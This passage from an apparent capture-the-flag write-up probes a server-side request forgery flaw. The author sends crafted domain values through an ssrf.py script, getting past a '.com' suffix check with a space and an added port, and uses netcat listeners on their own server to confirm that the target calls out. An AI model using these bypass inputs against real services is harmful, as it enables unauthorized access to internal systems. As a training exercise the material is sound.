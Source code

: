 ```sh
Host: 212ror.channelcs.com

Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.236.20.43] port 80 [tcp/*] accepted (family 2, sport 34882)
GET / HTTP/1.0
Host: 212ror.channelcs.com

Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.236.20.43] port 80 [tcp/*] accepted (family 2, sport 34954)
GET /lol.com HTTP/1.0
Host: 212ror.channelcs.com

--remote--
```

So, since it only checks if the last 3 words are '.com', we may be actually able to send requests to files other than index. Let's investigate it a bit more and see what we are able to achieve with it.

```sh
--local--

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com/lol#.com'
Error -> {u'domain': u'domain cannot contain #'}
Empty response
jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com/lol?.com'
Error -> {u'domain': u'domain cannot contain ?'}
Empty response
jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com/lol .com'
Reading id -> 50
HEHE

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com:83/lol .com'
Reading id -> 51
Empty response

--local--

--remote--

Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.236.20.43] port 80 [tcp/*] accepted (family 2, sport 35950)
GET /lol .com HTTP/1.0
Host: 212ror.channelcs.com

--remote--
```

We didn't get a error when we entered the port '83' in one of the requests, and since we didn't a get request on our server either, maybe it actually tried to connect to 83. Let's see.

```sh
--local--

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com:83/lol.com'
Reading id -> 52
HEHE83

--local--

--remote--

root@op:~$ while true; do echo "HEHE83"|nc -nlvp 83; done
Listening on [0.0.0.0] (family 0, port 83)
Connection from [104.236.20.43] port 83 [tcp/*] accepted (family 2, sport 44046)
```
